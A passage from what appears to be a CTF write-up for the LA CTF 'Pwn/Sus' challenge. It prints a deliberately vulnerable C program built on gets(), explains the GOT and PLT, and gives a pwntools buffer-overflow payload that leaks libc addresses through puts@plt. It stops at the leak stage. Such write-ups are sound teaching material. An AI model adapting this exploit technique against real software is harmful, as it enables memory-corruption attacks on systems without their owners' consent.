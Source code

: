 > Flag : lactf{m0n7y_533_m0n7y_d0}

## Pwn/Sus

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/c2483fba-441e-420a-9f16-a6fdddafe1e7)

### Source Code

{% highlight c %}
#include <stdio.h>

void sus(long s) {}

int main(void) {
  setbuf(stdout, NULL);
  long u = 69;
  puts("sus?");
  char buf[42];
  gets(buf);
  sus(u);
}
{% endhighlight %}

Theres not much going on in this binary. Theres no win function that we can return to with the buffer overflow so we will probably need a libc leak. Since PIE is disabled, we can overwrite the return address with the PLT address of puts() with the GOT address of any function as the argument.

Heres a short explanation of the Global Offset Table (GOT) and Procedure Linkage Table (PLT)
> The GOT table contains the address of functions while the PLT is used to resolve function calls. When a function is called for the first time in a program, it will first call the PLT entry of that function, which will resolve the function call and the address of the function is saved into the GOT. On future calls to this same function, it will use the address inside the GOT.

So when we call the PLT address of puts(), its the same as directly calling the function puts(). And when we give the GOT address of any function (e.g. gets) as argument, it will call puts() on the address of the argument.

In my script, I will leak the GOT address of gets(). Now the problem is, how do we pass the GOT address of gets() as an argument without pop_rdi gadget in the binary? Thats where the sus() function comes in. The sus() function takes the variable u as an argument (it would pop the value of u into rdi in assembly). Since we also have an overflow, we can modify the content of u and control what is popped into the rdi.

{% highlight python %}
payload = b"A" * 56
payload += p64(getsGot) * 2         # overwrite u with the GOT address of gets
payload += p64(putsPlt)             # call puts()
payload += p64(mainSym)             # return back to main to trigger BOF again

p.sendlineafter(b"sus?\n", payload)
leak = p.recvline().strip().ljust(8, b"\x00")
leak = u64(leak)
log.info(f"Gets leak : {hex(leak)}")

payload = b"A" * 56
payload += p64(putsGot) * 2      # overwrite u with the GOT address of puts
payload += p64(putsPlt)          # call puts()
payload += p64(mainSym)          # return back to main to trigger BOF again

p.sendlineafter(b"sus?\n", payload)
leak = p.recvline().strip().ljust(8, b"\x00")
leak = u64(leak)
log.info(f"Puts leak : {hex(leak)}")
{% endhighlight %}
